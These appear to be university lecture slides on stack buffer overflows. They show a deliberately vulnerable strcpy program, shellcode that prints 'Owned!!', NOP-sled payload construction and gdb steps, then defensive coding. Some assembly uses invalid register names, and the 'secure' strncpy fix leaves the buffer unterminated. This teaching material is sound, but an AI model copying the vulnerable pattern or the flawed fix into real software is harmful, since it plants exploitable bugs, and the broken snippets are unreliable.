


% Lecture 39 - Software Security
% CprE 308
% April 15, 2015

# Software Security

## Topics

Today:

 - Review: Segmentation, execution jumps, stack space
 - Buffer Overflow (Concepts)
 - Buffer Overflow (Basic Example)
 
Next Lecture:

 - Buffer Overflow (Practical Example)
    - Reversing and remotely exploiting a Windows web server
 - Operating system defenses
     - ASLR, DEP, stack canaries

# Review

## Review: Structuring Virtual Memory
<!--
In paging the address space is divided into a sequence of fixed size units called page frames. A logical (virtual) address takes the form of a tuple <page, offset into page frame>.

In segmentation, the address space is divided into a preset number of segments like data segment (read/write), code segment (read-only), stack (read/write) etc. The logical components of programs are divided into these segments accordingly and the OS kernel enforces the security restrictions of each segment. A logical (virtual) address is represented as tuple <segment, offset into segment>.

Paging helps reduce fragmentation and ensures better memory management, while segmentation offers better security protections (ex: data fields can't be executed).  Most modern OS's employ a mixture of the two schemes.  Instead of an actual memory location the segment information includes the address of a page table for the segment. When a program references a memory location the offset is translated to a memory address using the page table. A segment can be extended simply by allocating another memory page and adding it to the segment's page table.
-->
 - Paging
    - Divides the address space into fixed-sized pages
    - Reduces fragmentation, increases efficiency
 - Segmentation
    - Divides the address space into variable-sized segments
    - Enables memory protections (Example: data, code, uninitialized, shared memory, etc.)
    - Segfault (Segmentation Fault/General Protection Fault)
 - Modern OS's use a mixture of both schemes (paged segmentation)

# NSF Buffer Overflow Module

## NSF Buffer Overflow Module

- http://nsfsecurity.pr.erau.edu/bom/

> A buffer overflow results from programming errors and testing failures and is common to all operating systems. These flaws permit attacking programs to gain control over other computers by sending long strings with certain patterns of data.

## NSF BOMod Interactive Examples

- https://github.com/CprE308/bomod
- Same material, just refined and less buggy

# Basic Buffer Overflow Example

## The Vulnerable Source Code
Why is this vulnerable?

```c
#include <stdio.h>
int main(int argc, char **argv) {
  char buf[64];
  strcpy(buf, argv[1]);
}
```

## Why is this Vulnerable?
 - Program is soliciting input from the user through the program arguments
 - Input is stored to memory (buf)
 - Input bounds are not checked and data in
memory can be overwritten
 - The main function has a return address that can be overwritten to point to data in the buffer
 
## Compiling and Disassembling
Compile: `tcc –g –o basic_vuln basic_vuln.c`

Execute: `./basic_vuln 'AAAAA'`

Disassemble: `gdb basic_vuln` 

               (gdb) disas main

## Compiling and Disassembling


## Create Shellcode Assembly
```
section .data
msg db ‘Owned!!’,0xa
section .text
global _start
_start:
mov eax, 4 ;write(int fd, char *msg, unsigned int len)
mov ebx, 1
mov ecx, msg
mov edx, 8
int 0x80
mov  eax, 1 ;exit(int ret)
mov ebx, 0
int 0x80
```

## Typical Shellcode
 - Execute a shell/command prompt
 - Phone home and execute remote commands
 - Add an admin account
 - Install a rootkit
 - Something else nasty…

## Compile and Inspect Shellcode
 - Null bytes are treated as character string terminators
     - (as attackers, we don’t want that)
 - Addresses must be independent of position in memory

## Compile and Inspect Shellcode


## Shellcode Cleanup Tricks
 - We can still create null bytes with XOR
    - Instead of “mov ebx, 0” do “xor ebx, ebx”
    - Note that C stdlib treats 0x0A as a terminating character as well

 - Instead of referencing memory, we can just store the string directly on the stack and then set the stack pointer to the system call

## Refined Shellcode
```
section .text
global _start
_start:
xor eax, eax ;clear out the registers
xor ebx, ebx
xor ecx, ecx
xor edx, edx
mov a1, 4 ;write(int fd, char *msg, unsigned int len)
mov b1, 1
push 0x21212164 ;Owne = 0x4F, 0x77, 0x6E, 0x65
push 0x656E774F ;d!!! = 0x64, 0x21, 0x21, 0x21
mov ecx, esp
mov d1, 8
int 0x80
mov  a1, 1 ;exit(int ret)
xor ebx, ebx
int 0x80
```

## Packaging Shellcode


## Create Payload
Payload = [NOP Sled + Shellcode]

 - Payload should be the length of the buffer
 - Pad the shellcode with a series of leading NOP’s (no operation instructions)
    - Number of NOP’s = sizeof(buffer) minus sizeof(shellcode)
 - CPU executes NOP’s until it hits shellcode

Helpful Commands 

 - Use `wc <filename>` command to get file size
 - `perl –e ‘print “\x90”x(64-34)’ > payload`
 - `cat shellcode >> payload`


## Test Harness
```c
int main(int argc, char **argv)
{                                                       
    int *ret;
    ret = (int *)&ret + 2;
    (*ret) = (int)argv[1];
}
```
## Test Harness
Returns main to the argv buffer, forcing the CPU to execute data passed in the program arguments…probably not a best practice...

```c
int main(int argc, char **argv)
{                                                       
    int *ret;
    ret = (int *)&ret + 2;
    (*ret) = (int)argv[1];
}
```

## Test Payload


## Finding the Stack Pointer
 - Run `hexedit payload`
 - Add some visible bytes and inspect in gdb
    - These are the first bytes outside the bounds of the buffer
 


## Debugging and Inspecting Memory
 - Set break points
 - View Registers
    - $esp (stack pointer)
    - $ebp (frame pointer, points to the start of the stack frame and does not move for the duration of the subroutine call)
    - $eip (instruction pointer)
 - Dump memory

## Finding the Stack Pointer


## Overwriting the Stack Pointer


## Exploited! (sorta)


## Exploited! (sorta)
 - Exploit = `<30 NOP's><34 Byte Shellcode><4 Byte Filler><4 Byte Address to NOP’s>`
 - Debugger observation changes the address space slightly….time for a guess and check hoping to hit somewhere in the NOP sled…
 - How do we prevent this???

## Secure Coding
Practice defensive coding and check your inputs!

```c
#include <stdio.h>
int main(int argc, char **argv)
{
    char buf[64];
    // LEN - 1 so that we don’t write a null byte past
    // the bounds of buf if n = sizeof(buf)
    strncpy(buf, argv[1], 64-1);
}
```

## Inspect Secure Code


## Secure Coding (Alternative Functions)
Source: [http://developer.apple.com](http://developer.apple.com/library/mac/#documentation/Security/Conceptual/SecureCodingGuide/Articles/BufferOverflows.html)

